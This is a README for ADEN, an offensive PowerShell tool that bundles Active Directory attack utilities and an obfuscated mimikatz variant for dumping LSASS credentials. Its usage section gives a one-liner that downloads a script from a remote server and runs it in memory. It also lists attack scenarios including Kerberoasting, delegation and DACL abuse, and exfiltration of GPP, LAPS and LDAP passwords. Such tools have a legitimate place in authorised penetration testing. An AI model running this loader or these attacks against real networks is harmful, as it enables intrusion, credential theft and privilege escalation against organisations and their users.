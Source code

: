 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. \
 \
An obfuscated version of mimikatz is included separately in order to dump LSASS: ```lsdmp.ps1```\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
Once the script is loaded in-memory, the function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
